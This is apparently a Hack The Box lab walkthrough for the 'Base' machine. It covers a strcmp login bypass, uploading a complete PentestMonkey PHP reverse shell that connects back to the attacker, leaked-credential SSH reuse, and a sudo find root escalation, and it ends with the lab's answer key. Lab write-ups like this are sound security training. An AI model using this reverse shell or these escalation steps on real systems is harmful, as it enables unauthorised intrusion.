# Base      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.



### **22/tcp (SSH)**
This port is used by `OpenSSH`, version 7.6p1, which is running on `Ubuntu Linux`. `OpenSSH` is responsible for providing secure remote login and other secure network services over an unsecured network. The server supports `SSH protocol 2.0` and provides various host keys, including RSA, ECDSA, and ED25519, for authenticating connections, ensuring that the communication is encrypted and secure.

### **80/tcp (HTTP)**
This port is used by the `Apache HTTP Server`, version `2.4.29`, which is running on an `Ubuntu Linux` system. The Apache server serves web pages and supports standard HTTP methods such as `HEAD`, `GET`, `POST`, and `OPTIONS`. 

After pasting http://{target ip}/ into the browser, we can see website.



Notice how the `URL` changes after pressing the `login` tab.



Let's go to:

```
http://{target ip}/login/
```



We cannot open `config.php`. We will focus at `login.php.swp`.

Just click it and it should download itself.

Use `strings` to make file more readable.

```
strings login.php.swp
```



This fragment is interesting for us.

We can see `/upload.php` location.

I pasted `http://{target ip}/upload.php` but it redirected me to `http://{target ip}/login/login.php`.

Quick `Google` search and I found this:

https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016

We will try to exploit this vulnerability. Maybe we'll somehow gain access to the `/upload.php` section, allowing us to upload a `reverse shell` file.

### Burpsuite

We will need to intercept the login.

Intercept the request.





Time to modify the request. Let's add `[]` after `username` and `password`. It should look like this:



Press `Forward`(twice). Make sure your `proxy` is still running.



Boom we are in.

### Reverse shell preparation

Go to: https://www.revshells.com/

We are going to use `PHP PentestMonkey` one.

Paste `ip address` of our `tun0` interface as we are connected to `Hack The Box` through VPN.

If you don't know your `tun0` ip address use `ip a` command or `ifconfig`.

The `port` can be any of your choice.



Copy the payload, it should look like this:

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '{your tun0 ip}';
$port = {port of your choice};
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

Save it as `.php` file.

Upload it. You should see the confirmation.


Our `reverse shell` file is uploaded. Before we execute it, we have to determine its exact path.

### gobuster

Type:

```
gobuster dir -u http://{target ip}/ -w {path to the dictionary you want to use}
```



We can see that the `uploaded` files might be at: `http://{target ip}/_uploaded/`.

Let's paste it into the browser.



Our `reverse shell` file is there.

### Netcat

Time to set up the `Netcat`.

Type in new tab:

```
nc -lvnp {port you have chosen}
```



When all of the above is done it is finally time to execute `reverse shell`.

In your browser type:

```
http://{target ip}/_uploaded/{name of your reverse shell file}.php
```



Looks like it has been executed.

Let's check the `Netcat` tab.



We have it. Good.

If you need, you can stabilize your `shell`.

I modified one payload from here: https://github.com/RoqueNight/Reverse-Shell-TTY-Cheat-Sheet

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Just `paste it` and press `Enter`.



### Look around



We don't have enough privileges to cat the `user`'s flag.

As we are `"in"` let's try to see if we can access `config.php` file.

Go to `/var/www/html/login` path and see.



We know that `SSH` is open. We will try to log in with these credentials.

```
admin:thisisagoodpassword
```

### SSH



With `admin` it did not work. We know that one of the system's users is `John`. Let's try with that nickname.

Type:

```
ssh john@{target ip}
```

Provide the password and we are in.



### Get the user flag

The flag is in `/home/john` path.



### System search



It's not good idea to let a regular user run binaries with elevated privileges, as many standard Linux binaries have options that can execute system commands. 

Let's go to: https://gtfobins.github.io/ and search for `find`. I recommend this site a lot.



We are going to use this one.



Type:

```
sudo find . -exec /bin/sh \; -quit
```



We are `root`.

### Get the root flag

The `root` flag is in the `/root` directory.



### Paste the flags



## Answers

### Task-1: Which two TCP ports are open on the remote host?

22,80

### Task-2: What is the relative path on the webserver for the login page?

/login/login.php

### Task-3: How many files are present in the '/login' directory?

3

### Task-4: What is the file extension of a swap file?

.swp

### Task-5: Which PHP function is being used in the backend code to compare the user submitted username and password to the valid username and password?

strcmp()

### Task-6: In which directory are the uploaded files stored?

/_uploaded

### Task-7: Which user exists on the remote host with a home directory?

john

### Task-8: What is the password for the user present on the system?

thisisagoodpassword

### Task-9: What is the full path to the command that the user john can run as user root on the remote host?

/usr/bin/find

### Task-10: What action can the find command use to execute commands?

exec 

### Submit user flag

ggwp

### Submit root flag

Thank You